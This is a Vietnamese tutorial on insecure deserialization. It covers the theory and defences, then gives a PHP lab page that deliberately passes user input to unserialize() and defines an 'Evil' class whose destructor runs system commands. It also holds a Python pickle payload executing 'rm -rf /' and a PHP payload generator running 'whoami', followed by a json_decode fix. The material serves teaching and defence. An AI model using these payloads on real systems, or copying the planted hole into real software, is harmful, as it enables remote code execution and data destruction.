



# 🔐 Insecure Deserialization - Lý thuyết & Thực hành với PHP

# 📑 Mục lục

### [**Lý thuyết**](#lý-thuyết)

- [**1. Định nghĩa**](#1-định-nghĩa)

- [**2. Cách khai thác**](#2-cách-khai-thác)

- [**3. Cách phòng chống**](#3-cách-phòng-chống)

### [**Thực hành**](#thực-hành)

- [**1. Xây dựng trang web bằng code PHP**](#1-xây-dựng-trang-web-bằng-code-php)

- [**2. Thực hiện khai thác lỗ hổng Unsafe deserialization**](#2-thực-hiện-khai-thác-lỗ-hổng-unsafe-deserialization)


# **Lý thuyết**

## **1. Định nghĩa**

**Insecure Deserialization** là một lỗ hổng bảo mật xảy ra khi một ứng dụng thực hiện **giải tuần tự hóa (deserialization) dữ liệu không đáng tin cậy**, dẫn đến việc kẻ tấn công có thể thực thi mã độc, nâng cao đặc quyền hoặc thay đổi dữ liệu quan trọng.

- **Serialization (Tuần tự hóa)**: Là quá trình chuyển đổi một đối tượng (object) thành một định dạng có thể lưu trữ hoặc truyền tải, như JSON, XML, hoặc các định dạng nhị phân khác.
    
- **Deserialization (Giải tuần tự hóa)**: Là quá trình chuyển đổi dữ liệu đã được tuần tự hóa trở lại thành một đối tượng trong bộ nhớ.
    

Lỗ hổng **Insecure Deserialization** xảy ra khi dữ liệu đầu vào được giải tuần tự hóa mà không có kiểm tra an toàn, cho phép kẻ tấn công chèn payload độc hại để thực thi lệnh trên hệ thống.

## **2. Cách khai thác**

### **2.1. Kịch bản tấn công**

Giả sử một ứng dụng web sử dụng cơ chế lưu trữ phiên (session) bằng cách tuần tự hóa các đối tượng và lưu vào cookie dưới dạng JSON. Nếu không có kiểm tra bảo mật, kẻ tấn công có thể:

1. Chỉnh sửa giá trị của cookie để nâng quyền (ví dụ: thay đổi role từ “user” thành “admin”).
    
2. Đưa mã độc vào payload tuần tự hóa để thực thi mã lệnh trên server khi ứng dụng thực hiện deserialization.
    

### **2.2. Minh họa khai thác**

Giả sử ứng dụng sử dụng **Python pickle** để tuần tự hóa dữ liệu và lưu trữ thông tin người dùng:

```js
import pickle

class User:
    def __init__(self, username, role):
        self.username = username
        self.role = role

data = User("guest", "user")

# Tuần tự hóa đối tượng
serialized_data = pickle.dumps(data)

# Giải tuần tự hóa đối tượng
deserialized_data = pickle.loads(serialized_data)
print(deserialized_data.username, deserialized_data.role)
```

Lỗ hổng xảy ra nếu kẻ tấn công gửi một payload độc hại thay vì dữ liệu hợp lệ:

```js
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ("rm -rf /",))  # Payload xóa toàn bộ dữ liệu hệ thống

payload = pickle.dumps(Exploit())
```

Khi ứng dụng thực hiện `pickle.loads(payload)`, mã độc sẽ được thực thi ngay lập tức.

## **3. Cách phòng chống**

### **3.1. Không sử dụng deserialization không an toàn**

- Tránh sử dụng **pickle** (Python), **Java Serialization**, hoặc **PHP unserialize()** với dữ liệu không đáng tin cậy.
    
- Nếu bắt buộc phải sử dụng, hãy triển khai các biện pháp bảo mật như **whitelist classes** hoặc sử dụng thư viện an toàn hơn như `json` thay vì `pickle`.
    

### **3.2. Xác thực và kiểm tra dữ liệu trước khi giải tuần tự hóa**

- Kiểm tra chữ ký số (digital signature) trên dữ liệu tuần tự hóa để đảm bảo dữ liệu không bị thay đổi.
    
- Sử dụng các giải pháp như **HMAC (Hash-based Message Authentication Code)** để xác minh tính toàn vẹn của dữ liệu.
    

### **3.3. Chạy deserialization trong sandbox**

- Giới hạn quyền thực thi khi giải tuần tự hóa dữ liệu bằng cách sử dụng các sandbox hoặc container để giảm thiểu tác động nếu bị khai thác.
    

### **3.4. Sử dụng các cơ chế thay thế an toàn hơn**

- Sử dụng **JSON hoặc XML** thay vì các định dạng tuần tự hóa nhị phân như `pickle` hoặc `Java Serialization`.
    
- Nếu sử dụng JSON, hãy sử dụng **json.loads()** thay vì `eval()` trong Python để tránh thực thi mã độc.

# **Thực hành**

## **1. Xây dựng trang web bằng code PHP**

### 1.1 **Form 1 – Serialize object:**

- Nhập thông tin:
    
    - `Username`
        
    - `Email`
        
    - `Năm sinh`
        
    - `Giới tính`

```js
<?php  
class User {  
    public $username;  
    public $email;  
    public $birth_year;  
    public $gender;  
  
    public function __construct($username, $email, $birth_year, $gender) {  
        $this->username = $username;  
        $this->email = $email;  
        $this->birth_year = $birth_year;  
        $this->gender = $gender;  
    }  
}  
  
$base64 = '';  
  
if ($_SERVER['REQUEST_METHOD'] === 'POST') {  
    $username = $_POST['username'];  
    $email = $_POST['email'];  
    $birth_year = $_POST['birth_year'];  
    $gender = $_POST['gender'];  
  
    $user = new User($username, $email, $birth_year, $gender);  
    $serialized = serialize($user);  
    $base64 = base64_encode($serialized);  
}  
?>  
  
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="UTF-8">  
    <title>Form 1 - Serialize User</title>  
</head>  
<body>  
<h2>Form 1: Nhập thông tin người dùng</h2>  
<form method="POST">  
    Username: <input type="text" name="username" required><br>  
    Email: <input type="email" name="email" required><br>  
    Năm sinh: <input type="number" name="birth_year" required><br>  
    Giới tính:  
    <select name="gender">  
        <option value="Nam">Nam</option>  
        <option value="Nữ">Nữ</option>  
    </select><br>    <input type="submit" value="Gửi">  
</form>  
  
<?php if ($base64) { ?>  
    <h3>Chuỗi base64:</h3>  
    <textarea rows="5" cols="80"><?= htmlspecialchars($base64) ?></textarea>  
<?php } ?>  
</body>  
</html>
```


        
- Sau khi nhấn **Submit**:
    
    - Thông tin người dùng được đóng gói vào 1 **Object**
        
    - **Object đó được serialize rồi encode sang Base64**
        
    - Base64 được hiển thị ra trang

Sau khi submit form 2 thì **deserialize** ra **object**. Hiển thị thông tin đã deserialize ra trang web (Username, Email, Năm sinh, Giới tính).

**Trang web sử dung class Evil**
`class Evil` không phải để sử dụng trong web bình thường, mà là để:

- **Minh họa cho lỗ hổng** PHP Object Injection.
    
- **Tạo payload giả lập** trong các bài tập bảo mật hoặc CTF.
    
- **Cho attacker kiểm tra khai thác** khi biết có `unserialize()` tồn tại.

```js
<?php  
// Class gốc User  
class User {  
    public $username;  
    public $email;  
    public $birth_year;  
    public $gender;  
}  
  
// Class "Evil" thực thi lệnh khi bị huỷ  
class Evil {  
    public $cmd;  
  
    public function __destruct() {  
        system($this->cmd);  // 💥 thực thi khi bị unserialize rồi bị huỷ    }  
}  
  
$output = '';  
  
if ($_SERVER['REQUEST_METHOD'] === 'POST') {  
    $base64_input = $_POST['base64_input'];  
  
    try {  
        $decoded = base64_decode($base64_input);  
        $obj = unserialize($decoded);  
  
        if ($obj instanceof User) {  
            $output .= "<strong>Thông tin đã giải mã:</strong><br>";  
            $output .= "Username: " . htmlspecialchars($obj->username) . "<br>";  
            $output .= "Email: " . htmlspecialchars($obj->email) . "<br>";  
            $output .= "Năm sinh: " . htmlspecialchars($obj->birth_year) . "<br>";  
            $output .= "Giới tính: " . htmlspecialchars($obj->gender) . "<br>";  
        } else {  
            $output = "Đối tượng không hợp lệ hoặc bị giả mạo.";  
        }  
    } catch (Exception $e) {  
        $output = "Lỗi: " . $e->getMessage();  
    }  
}  
?>  
  
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="UTF-8">  
    <title>Form 2 - Deserialize</title>  
</head>  
<body>  
<h2>Form 2: Giải mã đối tượng từ base64</h2>  
<form method="POST">  
    Base64:<br>  
    <textarea name="base64_input" rows="6" cols="80" required></textarea><br>  
    <input type="submit" value="Giải mã">  
</form>  
  
<?php if ($output) { ?>  
    <h3>Kết quả:</h3>  
    <div><?= $output ?></div>  
<?php } ?>  
</body>  
</html>
```

**Kết quả**



### ⚠️ **Yêu cầu đặc biệt:**

- Viết code sao cho xuất hiện lỗ hổng **Deserialization**
    
    - Tức là có thể deserialize các object **không an toàn** (có thể inject code độc hại).

```js
$user_info = unserialize($decoded);
```

`unserialize()` **trực tiếp dữ liệu từ người dùng gửi lên** mà **không kiểm tra lớp hoặc loại đối tượng**, không hạn chế class nào được phép load.

- Viết thêm 1 phiên bản đã **fix lỗi** này:
✅ Giải pháp an toàn: Sử dụng `json_decode()` thay vì `unserialize()`

```js
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST' && isset($_POST['submit_form2'])) {
    $base64_input = $_POST['base64_input'];
    try {
        // Giải mã Base64
        $decoded = base64_decode($base64_input, true);

        if ($decoded === false) {
            throw new Exception("Lỗi: Chuỗi Base64 không hợp lệ.");
        }

        // Giải mã JSON thay vì unserialize
        $user_info = json_decode($decoded, false); // Trả về object stdClass

        if ($user_info === null) {
            throw new Exception("Lỗi: Không thể giải mã JSON từ dữ liệu.");
        }

        // Xác minh các thuộc tính cần thiết có tồn tại
        $required_fields = ['username', 'email', 'birth_year', 'gender'];
        foreach ($required_fields as $field) {
            if (!property_exists($user_info, $field)) {
                throw new Exception("Thiếu trường dữ liệu: $field");
            }
        }
    } catch (Exception $e) {
        $error_message = $e->getMessage();
    }
}
?>
```

### 2. **Form 2 – Deserialize object:**

- Nhập chuỗi **Base64**
    
- Sau khi **Submit**:
    
    - Hệ thống **decode base64** → **deserialize object**
        
    - **Hiển thị lại thông tin người dùng** từ object vừa deserialize



## **2. Thực hiện khai thác lỗ hổng Unsafe deserialization**

### ⚙️ 1. Tạo class giả lập trên máy attacker:

```js
<?php  
class Evil {  
    public $cmd;  
  
    function __construct($cmd) {  
        $this->cmd = $cmd;  
    }  
}  
$payload = new Evil("whoami");  
echo base64_encode(serialize($payload));  
?>
```

### 🧪 Kết quả bạn sẽ nhận được một chuỗi base64, ví dụ:

```js
Tzo0OiJFdmlsIjoxOntzOjM6ImNtZCI7czo2OiJ3aG9hbWkiO30=
```

### 🚀 2. Gửi chuỗi đó vào `Form 2` trên trang web của bạn

- Nếu server không chặn, PHP sẽ deserialize object đó
    
- Và nếu có `__destruct()` như trên → nó **chạy lệnh `whoami`**, và bạn thấy output trả về.


